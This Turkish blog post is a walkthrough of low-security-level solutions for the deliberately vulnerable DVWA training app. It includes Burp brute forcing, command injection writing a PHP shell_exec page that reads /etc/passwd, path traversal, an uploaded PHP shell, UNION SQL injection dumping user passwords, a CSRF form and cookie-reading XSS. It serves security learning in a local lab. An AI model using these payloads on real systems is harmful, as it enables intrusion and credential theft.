 ```yaml
---
layout: post
title: DVWA (Low-Level) Çözümleri
categories: tr
---
```




&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Damn Vulnerable Web App <strong>(DVWA)</strong>, savunmasız olan bir PHP / MySQL web uygulamasıdır. Ana hedefleri, güvenlik uzmanlarının yasal ortamda becerilerini ve araçlarını test etmelerine, web geliştiricilerinin web uygulamalarını güvence altına alma süreçlerini daha iyi anlamalarına ve öğretmenlerin / öğrencilerin sınıf ortamında web uygulaması güvenliğini öğrenmesine / öğretmesine yardımcı olmalarına yardımcı olmaktır .

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;GNU/Linux makinanıza DVWA kurulumu için gereken adımları aşağıda listeledim. 


	1. nano dvwa/config/config.inc.php

	_DVWA[ 'db_password' ] = 'sizin_sifeniz'; 

	2. nano /etc/php/7.0/apache2/php.ini

	allow_url_include = Off --> On      //olarak değiştiriyoruz.

	3. chmod -R 777 /var/www/html/dvwa  //Dosya İzini veriyoruz.

	4. create database dvwa;          //Veri tabanı oluşturuyoruz. 

	5. nano /etc/apache2/apache2.conf   //Dosyasına giderek an alt satıra 'ServerName localhost' 

	ekliyoruz

	6. /etc/init.d/apache2 start

	7. /etc/init.d/mysql start

	8. localhost/dvwa/setup.php          //Tarayıcıdan bu adrese giderek başlayabiliriz.



<h4>Brute Force</h4>


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Burada <strong>Burp Suite</strong> aracını kullanarak parametreler yakalayacağız ve bu parametrelere kelimelere gönderip kırmaya çalışacağız. Önce Burp Suite ile tarayıcımızı senkronize çalışır hale getirmek için aşağıdaki adımları izliyoruz.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Tarayıcıdan <strong>Preferences -> Advanced -> Network -> Settings</strong> bölümüne geliyoruz. Burada Manual proxy configuration kısmını işaretleyip
<strong>HTTP Proxy : 127.0.0.1 , Port : herhangi birşey</strong> yapıp  geri kalan herşeyi boş bırakıyoruz.


 <img src="/img/brute-force/mozilla-proxy.png"> 
 
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Sonra Burp başlatıp Proxy Bölümüne geliyoruz. Buradan da <strong>Options</strong> bölümüne gelerek <strong>Proxy Listener</strong> sekmesine yeni bir ekleme yapıyoruz . <strong>Interface : 127.0.0.1 Port : 7777</strong> .
Bundan sonra Burp ile tarayıcımız senkronize çalışacak. 

 <img src="/img/brute-force/burp-add-proxy.png">



&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Sonra <strong>Intercept</strong> kısmına geliyoruz. Intercept ON 'a tıklayıp tarayıcıdan Brute Force  kısmına giriş yapmak için bir şeyler yazıp submit 
ediyoruz. Bu olurken BURP' te birtakım değişiklikler olduğunu görüyoruz.

 <img src="/img/brute-force/catch-info.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<strong>GET</strong> sonucunu aldıktan sonra gelen bütün datayı seçip <strong>INTRUDER</strong> bölümüne gönderiyoruz. 
Orada '$' işaretlerini temizliyoruz. USERNAME ve PASSWORD kısmındakiler kalıyor. 
Çünkü değiştirip wordlist saldırısı şeklinde bu değişkenleri yollayacağız. Oturum bilgisi ve diğer değişkenler sabit kalacak.

 <img src="/img/brute-force/parameters.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Sonrasında aynı sayfada atak tipini <strong>'Cluster Bomb'</strong> olarak değiştiriyoruz. Sonra <strong>Payloads</strong> Bölümüne gelip 'Payload Set =1' yapıyoruz. Önce username için yollayacağımız kelimeleri
bu payload set altına dolduruyoruz. Sonrasında 'Payload Set =2' yapıp burada da password için 
yollayacağımız  kelimeleri ekliyoruz. Sonrasında 'Options' bölümüne geliyoruz. Burada 
<strong>'Grep-Match'</strong> kısmına sonucumuz doğru olduğu takdirde dönen değerin ne olacağı tahminini yapmamız gerekiyor. Eşleştiğinde username ve password değerlerimizin doğru olduğunu anlarız. 


 <img src="/img/brute-force/result.png">


<h4>Command Injection</h4>


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Önce ping için istedeği ip adresini verdikten sonra şöyle yazarak ;

	1. 127.0.0.1 && echo "Ctr1l" 

ping işlemlerinin altında yazdığımız komutun sonucunu görüyoruz. Buradan 
"Command Injection" yapılabildiğini anlıyoruz.Devamında ;

	1. 192.168.0.1 && echo "<?php echo shell_exec('cat /etc/passwd')  ?>" >> test.php
	2. http://localhost/DVWA-master/vulnerabilities/exec/test.php


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<strong>Passwd</strong> dosyasını ekrana bastıracak bir PHP kodu yazdım ve bunu içeriye test.php olarak yolladım. Bu sayfaya gittiğimizde passwd dosyasının içeriğini görüyoruz.



<h4>CSRF</h4>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Kaynağı görüntüleyip şifre değiştirme formunu alıyoruz. Buraya göndermek istediğimiz datayı <strong>'value'</strong> olarak kodumuza ekliyoruz. Sonra bu verilerin nereye gideceğini belirtmemiz gerekiyor. Bunu da "http://localhost/DVWA-master/vulnerabilities/csrf/?"   olarak görüyoruz ve <strong>#</strong> kısmını buna göre düzenliyoruz.

	<html>


	<form action="http://localhost/DVWA-master/vulnerabilities/csrf/?" method="GET">
	New password:<br />
	<input type="password" AUTOCOMPLETE="off" name="password_new" value="ctr1l"><br />
	Confirm new password:<br />
	<input type="password" AUTOCOMPLETE="off" name="password_conf" value="ctr1l"><br />
	<br />
	<input type="submit" value="Change" name="Change">

	</form>

	</html>


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Bu kodu tarayıcımızda çalıştırdığımızda asıl şifre değiştirme formumuzu doldurduğunu ve şifrenin değiştirildiğini görüyoruz.











<h4>File Inclusion</h4>

	1. http://localhost/DVWA-master/vulnerabilities/fi/?page=/etc/passwd

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Tarayıcıdan yazdığımızda  önümüzde /etc/passwd dosyası açılıyor.
Deneyerek dizinler arası dolaşarak farklı dosyalara ulaşabiliriz.

	1. http://localhost/DVWA-master/vulnerabilities/fi/?page=../../../../../../var/www/html/index.html



<h4>File Upload</h4>

	1. <?php echo shell_exec('cat /etc/passwd')  ?>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Bu kodu içeren dosyayı upload edip sisteme kendi php sayfamızı yüklemiş oluyoruz. Çeşitli işlemler yapacak sayfayı
oluşturmak bize kalıyor. Bu sayfaya gidecek olursak passwd dosyasının içeriğini görebiliriz.

	1. http://localhost/DVWA-master/hackable/uploads/shell.php

<h4>SQL Injection</h4>


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Boş alana 'or 1 or' yaptıktan sonra sorgu inject edebileceğimizi anlıyoruz ve tüm isimleri listeliyoruz.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Sonrasında kaç tane sütunumuz olduğunu anlamak için <strong>'order by 1 #, 'order by 2 # , 'order by 3 # </strong>
ifadelerini denerken 3'te hata alıyoruz. Buradan içeride 2 tane sütunumuz olduğunu anlıyoruz.
Bundan sonraki ifadelerimizi buna göre yazacağız.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Önce <strong>database</strong> ve <strong>versiyon</strong> bilgisi için şu sorguyu gönderiyoruz.

	1. 'union select database(),version() 

<img src="/img/sqli/database-version.png">





&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<strong>Tablo</strong> bilgileri için şu sorguyu gönderiyoruz.

	1. 'union select table_name,2 from information_schema.tables #

<img src="/img/sqli/tables.png">


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<strong>Kullanıcı bilgileri</strong> için gönderdiğimiz sorgu da şu şekilde : 

	1. 'union select user,password from users #

<img src="/img/sqli/users.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Bu şekilde devam ederek çeşitli bilgileri edinebiliriz.



<h4>XSS (Reflected)</h4>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Gelecek olan tepkiyi görmek için şöyle bir betik yolluyoruz. Buradan gelen <strong>'HELLO'</strong> mesajından da anlayacağımız üzere kodlarımızı çalıştırabileceğimizi anlıyoruz.

	1. <script>alert("Ctr1l")</script>



<h4>XSS (Stored)</h4>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Reflected kısmındaki gibi bir denemeyle kod çalıştırabileceğimizi anlıyoruz.

	1. <script>alert(document.cookie)</script>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Artık kodumuz içeride saklanıyor. Her ekleme yapmak istediğimizde ekleme işleminin yanında o  kodumuz da çalışacak ve  verilen görevi yapacak.











































